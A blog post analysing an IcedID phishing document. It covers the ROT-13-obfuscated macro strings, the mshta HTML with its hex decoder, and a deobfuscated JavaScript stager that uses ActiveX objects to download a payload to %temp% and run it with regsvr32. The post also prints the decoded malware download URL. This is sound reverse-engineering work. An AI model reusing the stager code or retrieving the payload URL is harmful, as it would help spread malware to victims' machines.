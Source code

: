 ```yaml
---
layout: post
title: "Analysing IcedId: The macro and Mshta"
summary: "Analysing the macro and Mshta in the docx file"
date:   2020-09-05 17:40:00 -0400
categories: Reverse engineering
---
```


## Analysing IcedID malware

### Context
I was looking up for a malware to analyse just for fun. One day, I've saw a post on twitter from [Suspicious Link](https://twitter.com/reecdeep/status/1300432198135418880), when there was a link to the [app.any.run](https://app.any.run/tasks/d52f66be-14f1-47fc-ad3b-77c89c0e2b77/) sample. I thought it would be an opportunity to check out the sample. I'll describe in future posts the analysis. This first part is quite incomplete as the macro and the Mshta are really simple - I was expecting more work to do.

The md5 hash file is `87e3a3829c723650bea2110ea75a43cd`.

### Casual phishing
By opening the `doc` file, we are greeted with the classic "Please run the macro". Let's just dive into the macro.

### Lolz at the encoding
When looking at the strings in the macro, we can see at least three that catch the eye.

``` vb
Public Const al9h8L As String = "p_:_\_j_v_a_q_b_j_f_\_f_l_f_g_r_z_3_2_\_z_f_u_g_n_._r_k_r_"
Public Const as2QC As String = "P_:_\_h_f_r_e_f_\_c_h_o_y_v_p_\_v_a_._p_b_z_"
Public Const akJ8O5 As String = "P_:_\_h_f_r_e_f_\_c_h_o_y_v_p_\_v_a_._u_g_z_y_"
```

Using our experimented ctfs skills, we can guess a ROT encoding.

```
c_:_\_w_i_n_d_o_w_s_\_s_y_s_t_e_m_3_2_\_m_s_h_t_a_._e_x_e_
C_:_\_u_s_e_r_s_\_p_u_b_l_i_c_\_i_n_._c_o_m_
C_:_\_u_s_e_r_s_\_p_u_b_l_i_c_\_i_n_._h_t_m_l_
```

And it is indeed a ROT-13 encoding. From this point, another wild guess is the macro will create a `html` file and will execute `mshta` on that file, probably dropping another file on the filesystem. There's a big blob of text in the `UserForm1`, starting with `<!QBPGLCR`, which again translates to `DOCTYPE` using the rot-13. We can get the content and translate it using our vim foo, `g?`.

### Quick and dirty mshta analysis

_Reversing_ the `html` file can be done within minutes. I'll explain how I did it, and a more thorough analysis will follow some day.

There's `p` element containing what seems to be a hex encoded blob, starting with

``` html
<p id="content">616e75637272416e756372725[...]</p>
```

This blob should be used somewhere, and we can follow the reference. Another thing is that there's only one function in the JavaScript, and it only converts a string passed in parameter.

``` js
function aQp7I(aXmFa)
{
        var al3VX = "";
        for(var a8tBHG = 0; a8tBHG < aXmFa.length; a8tBHG += 2)
        {
                al3VX += String.fromCharCode(parseInt(aXmFa.substr(a8tBHG, 2), 16));
        }
        return(al3VX);
}
```

By adding a `console.log(al3VX);` right before the `return`, one can get the output of the function.


By following the `content` tag, we will first get to `var aGml5p = document.getElementById("content");`. Following the `aGml5p` variable, we get to `amqBO.RegWrite(a8X0v, aGml5p.innerHTML, "REG_SZ");`. So, the file will create a registry key and put the value of `content` in it. Following references to `amqBO` lead to `a8fnhv = amqBO.RegRead(a8X0v)`. This can be simplified as `a8fnhv = content`.

Next, `a8fnhv = aQp7I(a8fnhv);`. Our function is called! What happens next: `a8fnhv = a8fnhv.replace(/nucrr/ig, "");`, then `var azKf2 = new Function("u", "c", a8fnhv);`. Let's see what's the result of the content after being passed to the `aQp7I` function and after the regex removes some `nucrr` occurrences.

``` js
aAT1V6 = true;
var avN2J = "aBUo3";
var aZAeCP = avN2J.length;

function ar9sv(ahf1a) {
    var avFW1R = "";
    for (var axF8yP = 0; axF8yP < ahf1a.length; axF8yP += 2) {
        avFW1R += String.fromCharCode(parseInt(ahf1a.substr(axF8yP, 2), 16));
    }
    return (avFW1R);
}
var aqNek = true;
aFM47o = false;
akS0L = 30444;

function a2uAHR(avFW1R) {
    return (avFW1R.split("").reverse().join(""));
}
var aAgDpY = -38781;
var a8D1v = 47284;
var ae2PS = 12708;
aZacTF = "anUX4L";
a5WNsd = aZacTF.toLowerCase();
var avAZG = new ActiveXObject("msxml2.xmlhttp");
var aZHhk = -12863;
var apgUz = true;
var aGnoB = new ActiveXObject("adodb.stream");
var aFqyH = "aiXJ3";
a8Nh59 = aFqyH.toUpperCase();
aYdVD = true;
apeFM = -58349;
am5UGu = true;
var arfAe = new ActiveXObject("wscript.shell");
aLzZH7 = "aiPOsk";
a0zBvV = aLzZH7.toUpperCase();
avc2fk = "aG2REl";
var aLhWt = avc2fk.toUpperCase();
advOnm = arfAe.expandenvironmentstrings("%temp%");
var a4btjU = "aSbLM";
arpdw4 = true;
var a72X8Q = -9230;
a1TIE = "ackdmA";
aDyvj = a1TIE.length;
aqzl3 = -10026;
var a7bNS = true;
var aWI9yB = -30060;
asC6iW = advOnm + String.fromCharCode(92) + "temp.tmp";
aH3r4a = 6567;
var aTrpB8 = 29087;
a7fBn = "azidx0";
var auyeo = a7fBn.length;
aWg3M5 = "aga8Eq";
var aeoOT = aWg3M5.toString();
u = a2uAHR(u);
u = ar9sv(u);
amgJz = "ab3kae";
var aq6RX4 = 27911;
a4XbQ = false;
alWXi4 = 17174;
var aomJe = false;
avAZG.open("GET", u, 0);
[...]
```

Quickly, we can assume a HTTP request will be made, because of the `var avAZG = new ActiveXObject("msxml2.xmlhttp");`. It might also execute a PE file using the `arfAe.run("regsvr32 " + asC6iW)`. We can beautify the new JavaScript blob and read it. Two functions exist, and both are easy to understand (`ar9sv` and `a2uAHR`).

As the JavaScript code is only a hundred long lines, let's check out where `avAZG` is used. `avAZG.open("GET", u, 0);`, and what is the `u` variable? `u = a2uAHR(u); u = ar9sv(u);`. `u` seems to be undefined. Let's go back to the other html part. `var azKf2 = new Function("u", "c", a8fnhv);`. Good! Where is `azKf2` used? `azKf2("261636e203136656c6f6d6d3c6f3078607e257775786f24616071637f2d6f636e296172787a717f2f2a307474786", 0);`. Now, let's just manually pass `261636e203136656c6f6d6d3c6f3078607e257775786f24616071637f2d6f636e296172787a717f2f2a307474786` to `azKf2` as such, and then run the JavaScript code:

``` js
u = a2uAHR("261636e203136656c6f6d6d3c6f3078607e257775786f24616071637f2d6f636e296172787a717f2f2a307474786");
u = ar9sv(u);
console.log(u);
```

``` bash
$ js test.js 
http://qzxrqi.com/sapad/huwu.php?l=molef10.cab
```

And we got our next file! 

``` bash
$ file molef10.cab
molef10.cab: PE32 executable (DLL) (GUI) Intel 80386, for MS Window
```

Now shall start the fun!
